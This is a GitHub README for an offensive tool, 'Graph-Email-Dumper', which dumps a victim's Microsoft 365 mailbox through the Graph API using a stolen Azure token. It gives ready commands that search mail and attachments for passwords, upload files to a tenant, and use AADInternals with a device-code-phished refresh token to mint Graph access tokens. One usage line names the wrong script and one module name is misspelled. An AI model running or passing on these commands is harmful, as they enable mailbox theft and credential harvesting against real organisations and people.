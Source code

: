 # Graph-Email-Dumper
Script to dump emails through Microsoft Graph API

# Usage graph_dump.py

```
python3 graph_dump.py extended_azure_token_file_path (optional filter)
```
# Filter examples

```
'$search="body:password"'
'$search="attachment:password"'
'$search="attachment:password"'

python3 graph_dump.py extended_azure_token_file_path '$search="body:password"'
```

# Usage push_sharepoint.py can be used to host on file on an Azure tenant

```
python3 extract_email.py extended_azure_token_file_path file_to_upload_path remote_filename (optional -organization)
```

# Device code phishing extended scope

```
PS> install-module aadinternals
PS> import-module addinternals
PS> $t = Get-AADIntAccessTokenWithRefreshToken -clientid "d3590ed6-52b3-4102-aeff-aad2292ab01c" -resource "https://graph.microsoft.com" -tenantid "" -refreshtoken "" -savetocache 1 -includerefreshtoken 1
PS> Write-Output $t
```

# Credit
Mr.Un1k0d3r RingZer0 Team
